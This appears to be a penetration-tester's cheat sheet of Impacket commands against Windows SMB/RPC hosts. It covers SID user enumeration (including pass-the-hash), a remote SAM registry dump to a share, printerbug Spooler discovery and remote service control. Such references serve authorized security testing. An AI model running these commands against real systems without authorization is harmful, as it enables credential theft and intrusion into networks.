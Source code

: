 # Impacket

% impacket, windows, smb, 445

## lookupsid - SID User Enumeration,  extract the information about what users exist and their data. 
#plateform/linux #target/remote #cat/RECON 

```
lookupsid.py '<domain>/<user>:<password>'@<ip>
```

## lookupsid - SID User Enumeration,  extract the information about what users exist and their data.  (pth)
#plateform/linux #target/remote #cat/RECON 

```
lookupsid.py --hashes : <nt_hash>'<domain>/<user>'@<ip>
```


## reg - query registry info remotely
#plateform/linux #target/remote #cat/RECON 
```
reg.py '<domain>/<user>:<password>'@<ip> query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
```
## reg - dump sam remotely
#plateform/linux #target/remote #cat/RECON 
```
reg.py '<domain>/<user>:<password>'@<ip>  backup -o '<smb_share_UNC>'
```

## rpcdump - list rpc endpoint
#plateform/linux #target/remote #cat/RECON 
```
rpcdump.py '<domain>/<user>:<password>'@<ip>
```


## rpcdump - Find Spooler services (printerbug coerce)
#plateform/linux  #target/remote #cat/RECON 
```
rpcdump.py <domain>/<user>:'<password>'@<dc_name> | grep MS-RPRN
```

## rpcdump - Find anonymous Spooler services (printerbug coerce)
#plateform/linux  #target/remote #cat/RECON 
```
rpcdump.py <dc_name> | grep -A 6 MS-RPRN
```

## services.py - (start, stop, delete, read status, config, list, create and change any service) remote
#plateform/linux #target/remote #cat/RECON  #cat/ATTACK/EXPLOIT  
```
services.py '<domain>/<user>:<password>'@<ip> <action>
``` 

## getarch - find target architecture (64 or 32 bits)
#plateform/linux #target/remote #cat/RECON 
```
getArch.py -target <ip>
```

## netview - enumeration tool (ip/shares/sessions/logged users) - need dns set
#plateform/linux #target/remote #cat/RECON 
```
netview.py <domain>/<user> -target <ip> -users <users_file>
```


